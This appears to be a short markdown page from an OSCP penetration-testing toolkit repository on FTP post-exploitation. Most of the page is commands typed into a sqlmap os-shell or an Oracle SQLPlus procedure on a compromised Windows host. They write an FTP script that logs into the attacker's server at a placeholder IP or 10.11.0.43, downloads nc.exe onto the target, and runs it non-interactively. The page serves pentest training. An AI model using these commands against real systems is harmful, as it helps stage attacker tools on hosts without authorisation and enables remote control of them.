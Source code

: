 # FTP Post Exploitation Techniques
This module will contain all FTP-related tasks used during post-exploitation.
## Create an FTP Script
This is a script to run as you call FTP from the shell. This is best for non-interactive shells, such as the `os-shell>` provided by `sqlmap` or a PHP shell provided by an SQL Injection exploit. The following example is done from the `--os-shell` provided by `sqlmap`. 

`os-shell> echo open (YOUR IP) 21> C:\share\ftp.txt` *(Writeable Directory on target)*

`os-shell> echo USER pwnt>> C:\share\ftp.txt` 

`os-shell> echo passwd>> C:\share\ftp.txt` *(Password for your FTP Server)*

`os-shell> echo bin>> C:\share\ftp.txt` *(Sets transfer up for binary files/bytes)* 

`os-shell> echo GET nc.exe C:\share\nc.exe>> C:\share\ftp.txt` 

`os-shell> echo bye>> C:\share\ftp.txt` 

To do this from an ORACLE SQLPlus shell, you must include a call to CMD.EXE because `echo` [is a shell built-in command](https://github.com/weaknetlabs/OSCP-tools/blob/master/Post%20Exploitation/Databases/oracle.md) as: 

`exec pwn_cmd('cmd.exe /c echo open 10.11.0.43 > C:\ftp.txt');`

Then, we can run the script with:

`os-shell> ftp -v -n -s:C:\share\ftp.txt` *(PATH to your Script on Target)* 
